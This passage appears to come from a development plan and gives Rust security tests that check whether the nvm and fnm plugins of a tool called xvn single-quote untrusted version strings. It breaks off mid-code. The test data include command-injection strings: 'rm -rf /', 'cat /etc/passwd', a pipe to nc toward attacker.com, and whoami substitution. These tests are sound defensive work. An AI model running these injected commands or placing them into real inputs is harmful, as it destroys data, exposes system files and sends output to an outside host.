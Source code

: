 4. Add shell escaping tests in `tests/security_test.rs`:
   ```rust
   use xvn::plugins::{NvmPlugin, FnmPlugin, VersionManagerPlugin};

   #[test]
   fn test_nvm_shell_escaping() {
       let plugin = NvmPlugin::new();

       let dangerous_inputs = vec![
           ("18.20.0; rm -rf /", ";"),
           ("18.20.0 && cat /etc/passwd", "&&"),
           ("18.20.0 | nc attacker.com 1234", "|"),
           ("18.20.0`whoami`", "`"),
           ("18.20.0$(whoami)", "$"),
       ];

       for (input, dangerous_char) in dangerous_inputs {
           let activate = plugin.activate_command(input).unwrap();
           let install = plugin.install_command(input).unwrap();

           // Verify the command starts with the expected prefix
           assert!(activate.starts_with("nvm use "),
                   "Expected 'nvm use' prefix, got: {}", activate);
           assert!(install.starts_with("nvm install "),
                   "Expected 'nvm install' prefix, got: {}", install);

           // Extract the version part after the command
           let activate_version = activate.strip_prefix("nvm use ").unwrap();
           let install_version = install.strip_prefix("nvm install ").unwrap();

           // Verify the dangerous input is quoted (shell-escape wraps in single quotes)
           assert!(activate_version.starts_with("'") && activate_version.ends_with("'"),
                   "Version should be single-quoted in activate: {}", activate);
           assert!(install_version.starts_with("'") && install_version.ends_with("'"),
                   "Version should be single-quoted in install: {}", install);

           // Verify the dangerous character is inside the quotes (neutralized)
           assert!(activate_version.contains(dangerous_char),
                   "Dangerous char '{}' should be present but quoted in: {}",
                   dangerous_char, activate);
       }
   }

   #[test]
   fn test_fnm_shell_escaping() {
       let plugin = FnmPlugin::new();

       let dangerous_inputs = vec![
           ("18.20.0; rm -rf /", ";"),
           ("18.20.0 && cat /etc/passwd", "&&"),
       ];

       for (input, dangerous_char) in dangerous_inputs {
           let activate = plugin.activate_command(input).unwrap();
           let install = plugin.install_command(input).unwrap();

           // Verify command prefixes
           assert!(activate.starts_with("fnm use "),
                   "Expected 'fnm use' prefix, got: {}", activate);
           assert!(install.starts_with("fnm install "),
                   "Expected 'fnm install' prefix, got: {}", install);

           // Extract version parts
           let activate_version = activate.strip_prefix("fnm use ").unwrap();
   ```